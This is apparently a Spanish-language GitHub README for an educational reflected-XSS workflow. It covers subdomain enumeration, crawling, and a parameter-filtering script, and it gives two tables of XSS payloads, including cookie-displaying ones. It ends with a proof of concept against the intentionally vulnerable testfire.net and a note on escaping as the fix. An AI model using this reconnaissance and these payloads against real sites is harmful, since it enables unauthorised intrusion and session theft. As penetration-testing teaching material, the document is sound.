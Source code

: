 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_token] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener token github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<td valign="top" colspan="3" class="bb">
 <div class="fl" style="width: 99%;">
  <h1>Search Results</h1>
	<p>No results were found for the query:<br /><br />
	<script>alert(document.location)</script>
 </div>    
</td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*

